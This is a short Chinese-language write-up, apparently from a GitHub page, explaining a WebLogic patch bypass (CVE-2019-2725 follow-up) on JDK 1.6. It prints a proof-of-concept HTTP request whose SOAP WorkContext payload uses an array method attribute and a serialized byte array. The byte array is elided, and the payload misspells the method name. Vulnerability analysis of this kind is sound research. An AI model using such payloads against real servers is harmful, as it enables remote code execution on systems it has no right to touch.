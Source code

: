 上一个漏洞没爆出几天，就又来了个绕过2725的POC，这次的POC尽限于jdk1.6，但是用jdk1.6的WebLogic 10并不是少数（weblogic10默认带的是1.6而且1.8以上就不兼容了）。

jdk1.7中array标签只能接length，class，id中的一个属性。ArrayElementHandler继承自NewElementHandler，NewElementHandler继承自ElementHandler，分别可以处理length，class，id)，这里就不一一粘贴代码了。

然而jdk1.6中不同，1.6中的xml解析并不像1.7中一样严谨，ObjectHandler(1.6中的DocumentHandler类)会给所有属性做一个统一的处理，这里面一些代码逻辑问题导致了array标签可以指定方法名(细节待补充)，因此可以通过Class.forName来指定类，绕过上一个补丁对class的过滤。


### POC

使用`<array method =“forName”>`替换class标签。

``` xml
POST /_async/AsyncResponseService HTTP/1.1
Host: localhost:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 
Cookie: remember-me=MXPUSANQRVaBJYtUucUgmQ==
Connection: close
Upgrade-Insecure-Requests: 1

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressi
ng" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:Relates
To>xx</wsa:RelatesTo> <
work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
<array method="froName"><string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>
<void>
<array class="byte" length="2946">
<void index="0"><byte>-84</byte></void>
<void index="1"><byte>-19</byte></void>
<void index="2"><byte>0</byte></void>
<void index="3"><byte>5</byte></void>
    .....
</array>
</void>
</array>
</java>
</work:WorkContext></soapenv:Header><soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```

### 第四次白名单补丁

这次Oracle终于使用了白名单过滤，array标签只能允许带有byte的class属性，或者带有length属性的任意属性。
